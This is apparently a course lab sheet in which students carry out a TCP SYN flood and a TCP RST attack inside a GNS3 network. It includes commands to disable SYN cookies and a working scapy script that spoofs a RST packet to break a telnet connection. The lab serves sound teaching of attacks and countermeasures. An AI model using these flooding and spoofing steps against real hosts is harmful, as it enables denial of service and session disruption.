


# 1. TCP Attacks
In this task we will perform two types of transport layer attacks; **TCP SYN Flood attack** and **TCP Reset attack**. Before we begin, configure your SecureCorp topology as below. You will need `Internal-Client-2`, `Internal-Attacker-2` and `Internal-Server` nodes. `Internal-Attacker-2` is a new node you need to add to the corp LAN. If you don't have the other nodes in your network, you will need to add them as well. To make it easy, we have configured all nodes with static IPs.

<p align="center">
    
</p>
<p align="center">
    Fig1. Network Topology
</p>

> **NOTE**: When you add a new node, make sure to configure the below directories as persistent.
>
```
/home
/var
/opt
/root
/etc
/usr
```

Open SecureCorp network configuration in GNS3 and start all nodes. Create a new Python file with the name server.py on Internal-Server node with the below content. You can also copy this from server.py file in Moodle:

```python
#!/usr/bin/env python3
from http.server import HTTPServer, SimpleHTTPRequestHandler
# Bind to all interfaces on port 80
server_address = ("0.0.0.0", 80)
httpd = HTTPServer(server_address, SimpleHTTPRequestHandler)
print("Serving HTTP on port 80...")
httpd.serve_forever()
```

This is a simple Python web server script that we are going to perform the attack on. Run the script using below commands to start the web server. Note that placing & at the end of the command runs the process in the background:

```bash
python3 server.py &
```

- Run the below commands on `Internal-Attacker-2` node:

```bash
apt update ; apt install python3-scapy -y
```

- Run the below commands on `Internal-Client-2` node:

```bash
apt update; apt install lynx
```

## 1.1 TCP SYN Flood Attack

`SYN` flood is a form of DoS attack in which attackers send many `SYN` requests to a victim's TCP port, but the attackers have no intention to finish the 3-way handshake procedure. Attackers either use spoofed IP address or do not continue the procedure. Through this attack, attackers can flood the victim's queue that is used for half-opened connections, i.e. the connections that has finished `SYN`, `SYN-ACK`, but has not yet got a final `ACK` back. When this queue is full, the victim cannot take any more connection.

<p align="center">
    
</p>
<p align="center">
    Fig2. SYN-ACK
</p>

1. The size of the queue has a system-wide setting. In Linux, we can check the system queue size setting using the following command (you can try this command in `Internal-Server`): 
    ```bash
    sysctl -q net.ipv4.tcp_max_syn_backlog
    ```

2. We can use command `netstat -antup` to check the usage of the queue, i.e., the number of half opened connection associated with a listening port. The state for such connections is `SYN-RECV`. If the 3-way handshake is finished, the state of the connections will be **ESTABLISHED**. 

3. We will use `syn.py` (available on Moodle) to attack `Internal-Server` with `SYN FLOOD`. First, run the following on the `Internal-Server` terminal:
    ```bash
    # net-tools is required before running netstat command
    # you can install net-tools using `apt install net-tools`
    netstat -antup
    ```

4. Run the following command on `Internal-Attacker-2` terminal for SYN flooding (Replace the IP with your Internal-Server's IP address):
    ```bash
    python3 syn.py --ip 10.10.10.80 --port 80
    ```

    > **Note**: You can run the above command multiple times by appending & to the end of each execution. Running the script concurrently in this way will increase the intensity of the attack.

5. Run the command `netstat -antup` again and you will see half opened tcp connections.

6. Try telnet from `Internal-Client-2` to `Internal-Server`, is it successful? (Replace the IP with your `Internal-Server`'s IP addresss e.g. `10.10.10.80`)
    ```bash
    # ip address of Internal-Server 10.10.10.80
    # 80 is the port (http)
    telnet 10.10.10.80 80
    ```

7. The Linux kernel has a built-in `SYN` cookies option which protects the system from `SYN` flooding attack. You need to first disable `SYN` cookie. You can use the sysctl command to turn on/off the `SYN` cookie mechanism. To display the `SYN` cookie flag:
    ```bash
    sysctl -a | grep cookie
    ```

8. To turn off SYN cookie:
    ```bash
    sysctl -w net.ipv4.tcp_syncookies=0
    ```

9. To turn on SYN cookie:
    ```bash
    sysctl -w net.ipv4.tcp_syncookies=1
    ```

10. Try attacks with countermeasure with `ON` and `OFF` and try connecting telnet to server. You should be able to telnet (while attacker is `SYN` flooding) to the server from client when the `syncookie=1`.

11. Then, you can try to analyse packets in **Wireshark**. Be careful with **wireshark**.

---

## 1.2 TCP RST (Reset) Attack

The objective of this task is to launch a TCP RST attack to break an existing `telnet` connection between `Internal-Client-2` and `Internal-Server`. 

1. Start Wireshark on the link between `Internal-Server` and `Corp-Switch`. Connect `telnet` from `Internal-Client-2` to `Internal-Server`. Execute the following on `Internal-Client-2` (Replace the IP with your `Internal-Server`'s IP address).
    ```bash
    telnet 10.10.10.80 80
    ```
    In Wireshark, click on the last packet sent to Internal-Server, now right click on “**Transmission Control Protocol**” and uncheck the “Relative Sequence Numbers”:

<p align="center">
    
</p>
<p align="center">
    Fig3. Disabling Relative Sequence Numbers
</p>

> Note the “**Next Sequence number**” in the “**Transmission Control Protocol**” panel (it can be seen in above screenshot). Attacker will use this sequence number for sending the next packet. 

2. We will use `scapy`, a python-based packet generator, for spoofing the packets. The following code will send a `RST` packet, run this from `Internal-Attacker-2`'s terminal. (You need to enter values of ”CLIENT's IP”, ”SERVER's IP”, ”sport”, and sequence number, these values can be obtained from Wireshark). 

    Here the assumption is that the attacker has traffic sniffing access to `Corp-Switch`, or attacker is able to perform ARP poisoning attack and capture the TCP packets. Use the below code to create `reset.py`.
    ```python
    #!/usr/bin/python3
    import sys
    from scapy.all import *
    print("sending reset packet...")
    IPLayer = IP (src="CLIENT's IP", dst = "SERVER's IP")
    TCPLayer = TCP (sport=37766, dport=80, flags="R", seq=506005543)
    pkt=IPLayer/TCPLayer
    ls(pkt)
    send(pkt,verbose=0)
    ```

    <p align="center">
        
    </p>
    <p align="center">
        Fig4. Running reset.py on Internal-Attacker-2 terminal
    </p>

    If successful, it will reset the connection between the `Internal-Client-2` and `Internal-Server`.
    
    <p align="center">
        
    </p>
    <p align="center">
        Fig5. Internal-Client-2 lost the connection
    </p>
